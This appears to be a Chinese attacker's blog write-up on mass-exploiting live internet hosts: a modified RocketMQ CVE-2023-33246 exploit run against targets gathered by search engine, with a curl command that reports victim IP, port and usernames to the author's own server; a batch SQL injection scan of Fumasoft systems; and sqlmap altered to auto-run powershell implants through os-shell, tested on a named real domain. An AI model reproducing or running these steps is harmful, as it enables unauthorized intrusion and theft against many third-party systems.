

## ------------------------------

# Apache RocketMQ远程代码执行漏洞（CVE-2023-33246）

## ------------------------------

## 一、发现漏洞

漏洞发现：[https://www.seebug.org/vuldb/ssvid-99694](https://www.seebug.org/vuldb/ssvid-99694)


## 二、获取可利用脚本

脚本发现：https://github.com/Malayke/CVE-2023-33246_RocketMQ_RCE_EXPLOIT/tree/main


## 三、魔改脚本

这个脚本是用python写的。分为检测和利用，两个文件

魔改期望：批量检测并且利用的一个脚本

### 1.检测脚本修改

下面这两个地方直接给他写死（原先脚本需要加参数去执行太麻烦了。直接写死读取当前目录下url.txt的数据）


### 2.利用脚本修改

这样检测批量没问题了。再把利用的payload复制进来
实现，检测符合标准后直接利用


### 3.命令执行修改

尝试过用ping  dnslog但是不好用

所以修改成了curl 访问带上参数（ip/port/用户名）访问我服务器指定php网页。

网页进行记录保存在服务器txt文件中

```
command = '  curl http://43.138.215.2/co.php?user=%USERNAME%---'+ip+':'+str(port)+'---$(whoami)'

PS:co.php本来是被我用来测试XSS接收coockie的

执行的命令也看到了如下
curl http://43.138.215.2/co.php?user=%USERNAME%---'+ip+':'+str(port)+'---$(whoami)

重点是里面两个参数 %USERNAME%和$(whoami)
%USERNAME%：获取win系统用户名
$(whoami)：获取linux系统用户名
```

## 四、获取测试目标

接下来就是获取目标。

我用的360搜索引擎API。将获取到的目标写入url.txt，再用上面脚本批量测试命令执行


## 五、利用payload

### 1.执行

如下图执行过程中有一些网页可能访问不了或者其他因素会报错什么的。用try/except抛出就行。

360搜索目标符合条件有20W个所以即使部分利用可拿下的机器还是很多


### 2.查看结果


## ------------------------------

# 孚盟云 SQL注入漏洞

## ------------------------------


## 一、发现漏洞

https://mp.weixin.qq.com/s/3DgwoYONc054Ax-AXODL2g


## 二、查找目标测试漏洞

### 1.查找


```
fofa:body="孚盟云"
360: response:"孚盟云 - 用户登录"  and response:"http://www.fumasoft.com"
```


### 2.测试

好像确实有东西  :http://ip/Ajax/AjaxMethod.ashx?action=getEmpByname&Name=1%27


测试成功确实存在


## 三、编写脚本测试脚本

### 1.编写


### 2.获取测试目标


### 3.运行脚本

抓了4k的资产测试。有1k的命中。命中率为25%


## ------------------------------

## sqlMap魔改实战-- os-shell自动执行

## ------------------------------

### 一、起因

```
当我们找到一个sql注入通用型漏洞的时候
正常上线流程是
sqlmap跑--》发现注入--》用os-shell参数 --》直接powershell上线

但是在这个上述流程中针对一个资产很好说。
但如果是批量资产要实现上线却有点难度。
因为上述命令一个一个敲得猴年马月哇
所以这一次我们魔改sqlMap实现上面流程的批量运作
```




### 二、流程分析

```
1.读取：读取目标url。构建sqlmap参数
2.运行：运行sqlmap脚本
3.上线：自动运行os-shell:powershell上线命令
```

#### 1.读取&运行


运行脚本后有多少URL打开多少cmd窗口去跑


#### 2.上线

```
分析sqlmap窗口。每次--os-shell成功后会有  “os-shell >”  这样的会话
所以我们在sqlmap代码脚本里面找到相应的代码程序
```

##### a.找到关键代码


##### b.分析代码

```
在第一个箭头处获取命令
第二个箭头处执行命令
```


##### c.魔改

```
魔改也很简单。在触发 os-shell前
sqlmap目录下，判断是否存在OS_SHELL.txt文件
如果存在就执行文件内的命令
```


### 三、实操测试

```
就拿之前咱们团队里面的那个，网狐荣耀棋牌sql漏洞来打吧
```


#### 1.构建sqlmap参数

```
sqlmap -u "{url}" --method POST --data "userName=qq12580bvb&password=a"  --user-agent  " Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36" --batch  --threads 10 --os-shell

----PS----
上面脚本配置了一下内容
url、请求方式、请求数据、浏览器头、自动确认、线程、os-shell
----------

```


```
构建好后我们先自己手动运行一个跑一下测试
sqlmap -u "http://_dmarc.gtr888club.com:8015/Login/ValidateLogin" --method POST --data "userName=qq12580bvb*&password=a"  --user-agent  " Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36" --batch  --threads  10 --os-shell
```


#### 2.配置好payload


#### 3.开炮


```
成功上线。但是...为什么不同域名，都是同一个IP哇。
部署在同一个
```


```
第二次测试
我把目标都换成了IP形态
```


## ------------------------------

## sqlMapAPI魔改实战

## ------------------------------

### 一、是什么

```
平时使用sqlmap单任务扫描太慢。不支持并发。
所以他们有个api功能
支持并发式sql注入扫描。

sqlmapApi服务端
用来接收命令或者说接收任务，
接收到的任务就是我们要跑sql注入的。接收到任务之后会对他进行扫描。

sqlmapApi客户端
用来发送任务命令以及可以用来查询任务，删除任务等等。
```


### 二、启动与部署


```
------服务端启动------
方式一
	py -3.6 sqlmapapi.py -s
方式二
	py -3.6 sqlmapapi.py -s -p 8686
方式三
	py -3.6 sqlmapapi.py -s -p 8686 --username=root --password=root

------客户端启动------
方式一
	py -3.6 sqlmapapi.py -c
方式二
	py -3.6 sqlmapapi.py -c -p 8686
方式三
	py -3.6 sqlmapapi.py -c -p 8686 --username=root --password=root


new -u http://localhost/sql/Less-1/?id=1
newgo test.txt
```


### 三、客户端命令

```
使用方式有两种
---------------------方式一：sqlmapApi自带客户端---------------------------
api> ?
help           Show this help message
new ARGS       Start a new scan task with provided arguments (e.g. 'new -u "http://testphp.vulnweb.com/artists.php?artist=1"')
use TASKID     Switch current context to different task (e.g. 'use c04d8c5c7582efb4')
data           Retrieve and show data for current task
log            Retrieve and show log for current task
status         Retrieve and show status for current task
option OPTION  Retrieve and show option for current task
options        Retrieve and show all options for current task
stop           Stop current task
kill           Kill current task
list           Display all tasks
version        Fetch server version
flush          Flush tasks (delete all tasks)
exit           Exit this client
--------------------方式二：自己构造请求发给服务器---------------------------------
@get("/task/new") 					创建新的任务ID。
@get("/task/<taskid>/delete") 		删除自己的任务ID。
@get("/admin/<taskid>/list") 		列出任务队列。
@get("/admin/<taskid>/flush") 		清空任务队列（删除所有任务）。
@get("/option/<taskid>/list") 		列出特定任务ID的选项列表。
@get("/scan/<taskid>/stop")			终止一个扫描。
@get("/scan/<taskid>/status") 		返回一个扫描的状态。
@get("/scan/<taskid>/data") 		检索一个扫描的数据。
@get("/scan/<taskid>/log/<start>/<end>") 检索日志消息的子集。
@get("/scan/<taskid>/log") 			检索日志消息。
@get("/download/<taskid>/<target>/<filename:path>") 从文件系统下载特定文件。

# 以下只有3个是POST请求，其余都是GET请求
@post("/option/<taskid>/get") 		获取特定任务ID的选项（命令行开关）的值。
@post("/option/<taskid>/set") 		设置特定任务ID的选项（命令行开关）。
@post("/scan/<taskid>/start") 		启动一个扫描。


```


### 四、理解与思考

```
它的话存在两种启动方式。
第一种是他自带的客户端。
第二种是我们自己构造请求发给服务器。


----------
对于第二种方式的思考。
----------
如果我们自己构造请求发送给服务器的话，
优点就是我们可以自定义编程去对服务器进行一个任务发放就更灵活，
但是在我看来，他这个设计并不人性化。
因为在这种方式中，他去布置任务的时候，他对于要扫描的目标设置的一些参数的构造特别麻烦
不像sqlmap直接在目标网站后面接上相应参数。

举个例子
sqlmap.py -u http://localhost/sql/Less-1/?id=1 -D test --tables

我们要执行上面这个命令用客户端方式
方式一：自带客户端
api> new  -u http://localhost/sql/Less-1/?id=1 -D test --tables

方式二：自己构造
@get("/task/new") 	创建新任务,并获取任务id:123456
@post("/option/123456/set") 设置参数
	{
		'url':'http://localhost/sql/Less-1/?id=1',
		'db':'test',
		'dbms':'MySql',
		'getTables':'Ture'
	}

发现没有。原始命令和官方自带客户端运行只需要一行就能解决。
但你用方式二步骤和参数构造都太麻烦了~~~


----------
对于第一种方式的思考。
----------
官方自带的客户端很好用。但缺点是很多东西写死了。
比如创建任务你只能手动客户端，一个一个敲上去。麻烦~
比如你查询任务结果时，查询步骤麻烦。你得先list查看哪些任务完成了>use taskId > data查看数据。、
	假如有20个任务批量跑了完成了。你去看哪些存在注入或者哪些利用成功。好麻烦啊~

所以综上。各有优缺点。
以及我最后的结论是。我们直接魔改官方代码。站在巨人肩膀上直接对他进行优化升级。

```


### 五、魔改客户端new命令

```
我直接添加了个newgo的命令

使用 newgo [批量执行的txt文本]
代码逻辑：
	读取文本，每一行为一条数据。这些数据将作为new后面跟的参数
	循环执行new [每一行的数据]
```


### 六、魔改客户端list命令

```
list命令能查看哪些任务完成了或者还在跑
但缺点是我目的是想知道我这些任务。哪些存在sql注入

魔改后，如下图
自动判断跑的数据中是否发现了sql注入
```


### 七、新增服务端功能tocken自保存

```
服务端如果后台启动。
token不能很快看到。

新增功能，将生成的admin_token自动保存在根目录下sqlmapApiLogin.log中。
不存在相应文件则自动生成
```


### 八、新增服务端功能一句话开任务

```
新增一个 /new/api 接口一句话执行任务
	# 服务端优化任务添加。直接传入参数的base64编码即可执行。传入为post请求。值存放在json数据中的data中
    #如 Post:http://127.0.0.1:8686/new/api
    # {
    #     "data": "LXUgaHR0cDovL2xvY2FsaG9zdC9zcWwvTGVzcy0zLz9pZD0x"
    # }

```


